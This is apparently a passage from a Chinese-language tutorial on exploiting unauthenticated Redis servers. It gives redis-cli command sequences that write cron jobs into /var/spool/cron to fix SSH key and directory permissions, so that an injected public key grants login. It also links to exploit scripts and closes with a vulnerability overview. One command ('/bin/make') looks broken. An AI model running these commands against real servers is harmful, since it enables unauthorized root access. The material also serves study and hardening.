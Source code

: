 

在php中的ssrf的话需要安装gopher协议拓展，就可以达到一样的效果。

自动化利用
我将之前的三种利用方式都写成了.sh的脚本形式，方便使用,只需本地要提前安装好redis

https://github.com/kingkaki/Exploit-scripts/tree/master/redis 还包含了socat捕获的流量报文样例

https://www.kingkk.com/2018/08/redis%E6%9C%AA%E6%8E%88%E6%9D%83%E8%AE%BF%E9%97%AE%E4%B8%8Essrf%E5%88%A9%E7%94%A8/

解决redis写公钥依然无法登录的情况
有些朋友在利用Redis写公钥依然无法空密码登录，为什么呢？
解决方法

A、将自己的公钥通过以上方法生成authrized_keys，然后通过本地形式(本机测试本机方式)，ssh localhost 方式尝试登录，如果能正常登录，则表示授权的KEY没有任何问题

B、被渗透的服务器上授权key的权限问题应该为600
利用Linux任务计划来设置授权的authorized_keys权限为600。
echo -e “\n\n*/1 * * * * /bin/chmod 600 ~/.ssh/authorized_keys\n\n”|redis-cli -h 127.0.0.1 -x set 1
redis-cli -h 127.0.0.1 config set dir /var/spool/cron/
redis-cli -h 127.0.0.1 config set dbfilename root
redis-cli -h 127.0.0.1 save

释义：上面这段其实也是保存redis数据的一个过程，不过这个过程是将数据保存为admin，存放在/var /spool/cron下，这个是专门存放任务计划的，而Key 1的值的含义则是：设置任务计划一分钟后执行chmod 600修改authorized_keys的权限为600

C、服务器没有.ssh目录的问题

利用Linux任务计划来创建该文件夹
echo -e “\n\n*/1 * * * * /bin/make ~/.ssh \n\n”|redis-cli -h 127.0.0.1 -x set 2
redis-cli -h 127.0.0.1 config set dir /var/spool/cron/
redis-cli -h 127.0.0.1 config set dbfilename root
redis-cli -h 127.0.0.1 save

D、.ssh目录权限问题

利用Linux任务计划来设置.ssh目录的权限问题
echo -e “\n\n*/1 * * * * /bin/chmod 700 /home/root/.ssh/\n\n”|redis-cli -h 127.0.0.1 -x set 1
redis-cli -h 127.0.0.1 config set dir /var/spool/cron/
redis-cli -h 127.0.0.1 config set dbfilename root
redis-cli -h 127.0.0.1 save

一、漏洞概述
Redis 默认情况下，会绑定在 0.0.0.0:6379，这样将会将 Redis 服务暴露到公网上，如果在没有开启认证的情况下，可以导致任意用户在可以访问目标服务器的情况下未授权访问 Redis 以及读取 Redis 的数据。攻击者在未授权访问 Redis 的情况下可以利用 Redis 的相关方法，可以成功在 Redis 服务器上写入公钥，进而可以使用对应私钥直接登录目标服务器。

1、漏洞描述
Redis 安全模型的观念是: “请不要将 Redis 暴露在公开网络中, 因为让不受信任的客户接触到 Redis 是非常危险的” 。

Redis 作者之所以放弃解决未授权访问导致的不安全性是因为, 99.99% 使用 Redis 的场景都是在沙盒化的环境中, 为了0.01%的可能性增加安全规则的同时也增加了复杂性, 虽然这个问题的并不是不能解决的, 但是这在他的设计哲学中仍是不划算的。

因为其他受信任用户需要使用 Redis 或者因为运维人员的疏忽等原因，部分 Redis 绑定在 0.0.0.0:6379，并且没有开启认证（这是Redis 的默认配置），如果没有进行采用相关的策略，比如添加防火墙规则避免其他非信任来源 ip 访问等，将会导致 Redis 服务直接暴露在公网上，导致其他用户可以直接在非授权情况下直接访问Redis服务并进行相关操作。

利用 Redis 自身的提供的 config 命令，可以进行写文件操作，攻击者可以成功将自己的公钥写入目标服务器的 /root/.ssh 文件夹的authotrized_keys 文件中，进而可以直接使用对应的私钥登录目标服务器。
